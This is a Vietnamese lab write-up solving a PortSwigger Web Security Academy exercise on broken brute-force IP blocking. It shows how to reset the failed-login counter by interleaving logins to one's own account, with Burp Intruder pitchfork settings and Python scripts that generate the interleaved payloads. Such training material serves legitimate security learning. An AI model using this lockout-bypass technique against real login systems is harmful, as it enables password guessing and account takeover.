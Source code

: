 # [Lab: Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)

quan sát:
1. Đăng nhập sai quá 3 lần, từ lần thứ 4 sẽ bị block 1 phút dù có đăng nhập đúng:
![0157b1df429e6dff7ffaff8377579f9d.png](../../../../../../_resources/0157b1df429e6dff7ffaff8377579f9d.png)
2. Dùng header  `X-Forwarded-For` như bài 5 cũng không bypass được.

Solution, đọc solution chứ không nghĩ ra:
1. mỗi lần đăng nhập sai phía server sẽ lưu số lần đó lại, nhưng khi đăng nhập thành công thì bộ đếm này sẽ bị reset
2. nghĩa là cứ 2 lần bruteforce mật khẩu của `carlos`, ta lại đăng nhập lại vào tài khoản `wiener` của mình để reset lại.
3. thực hành, dùng intruder:
- mode pitchfork
- payload positions:
```
username=§§&password=§§
```
- payload:
	- set 1, sử dụng python để tạo payload set 1:
	```bash
	┌──(kali㉿kali)-[~]
	└─$ python -c "print('carlos\ncarlos\nwiener\n'*51)" > payload1
	```
	- set 2, sử dụng python để tạo payload set 2:
		- lưu mật khẩu lab cho để bruteforce vào file password
		- nội dung file python:
		```python
		def main():
			with open('password') as file:
				index = 0
				for line in file:
					index += 1
					if index % 3 == 0:
						print('peter')
						index += 1
					print(line.rstrip())


		if __name__ == '__main__':
			main()
		```
		- chạy file và lưu nội dung output vào file payload 2:
		```bash
		┌──(kali㉿kali)-[~]
		└─$ python genpayload2.py > payload2
		```
- Resource pool có max concurrent pool là 1
- filter 3xx code
- Kết quả: ![71f9f8063cd16f642db95a8ff74dbdaa.png](../../../../../../_resources/71f9f8063cd16f642db95a8ff74dbdaa.png)
4. Đăng nhập vào tài khoản carlos => Lab Solved.